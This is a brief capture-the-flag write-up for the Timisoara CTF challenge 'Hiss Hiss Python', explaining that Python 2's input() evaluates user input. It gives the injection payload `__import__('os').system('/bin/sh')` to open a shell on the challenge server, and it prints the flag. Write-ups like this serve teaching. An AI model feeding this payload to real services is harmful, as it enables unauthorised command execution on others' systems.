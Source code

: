 ```yaml
---
title: "Hiss Hiss Python [50]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
link: https://blog.efiens.com/efiensctf2019-round2-write-ups/
--- 
```


**Category:** Binary Exploitation 

> This snake likes to h1ss at its input.  
nc 89.38.208.144 11113

## Write-up
Vulnerability: [https://blog.efiens.com/efiensctf2019-round2-write-ups/](https://blog.efiens.com/efiensctf2019-round2-write-ups/){: .btn}  

Unlike Python 3, Python 2's input() actually evaluates the input instead of taking it as a string. If we feed a command into input(), Python 2 will run the command, which is the vulnerability.
Giving `__import__('os').system('/bin/sh')` as input opens a shell.

**Flag:** TIMCTF{h1ss_h1ss_shell}